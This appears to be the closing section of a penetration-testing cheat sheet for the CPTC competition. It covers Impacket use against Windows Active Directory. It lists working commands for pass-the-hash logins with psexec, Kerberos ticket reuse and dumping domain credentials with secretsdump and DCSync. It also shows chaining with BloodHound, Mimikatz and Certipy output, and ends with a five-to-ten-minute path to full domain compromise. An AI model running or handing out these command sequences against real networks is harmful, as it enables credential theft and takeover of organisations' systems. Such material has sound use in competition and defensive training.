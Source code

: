 ```bash
# Kerberos Auth
export KRB5CCNAME=ticket.ccache
impacket-psexec -k -no-pass 'admin@DC.corp.local'
```

---

## Integration with Other Tools

### Impacket + BloodHound
```bash
# BloodHound finds: User has GenericAll on admin
# Impacket exploits it:
# 1. Change admin password (outside Impacket scope, use PowerView)
# 2. Use new creds with psexec:
impacket-psexec 'CORP/admin:NewPass123@TARGET'
```

### Impacket + Mimikatz Results
```bash
# Mimikatz on Windows dumps hash
# Use hash with Impacket from Kali:
impacket-psexec -hashes ':HASH' 'admin@NEXT-TARGET'
```

### Impacket + Certipy
```bash
# Certipy gets cert → auth → hash
certipy auth -pfx admin.pfx -dc-ip DC-IP
# Output: Got hash: abc123...

# Use hash with Impacket:
impacket-secretsdump -hashes ':abc123' 'admin@DC-IP' -just-dc
```

---

## Final Tips

**Speed Optimization:**
- Use `-hashes` flag (faster than password auth)
- Save secretsdump output to files (`-outputfile`)
- Run Kerberoasting early, crack in background
- Use wmiexec if psexec is slow/blocked

**Common Mistakes:**
- Using IP instead of FQDN with Kerberos (`-k` flag)
- Forgetting `-dc-ip` when using domain accounts
- Not saving secretsdump output (re-running wastes time)
- Trying to crack strong passwords (move on after 5 min)

**CPTC Success:**
```
Get admin → secretsdump → more hashes → lateral movement → DA → DCSync
```

**Total Time:** 5-10 minutes from first admin to full domain compromise
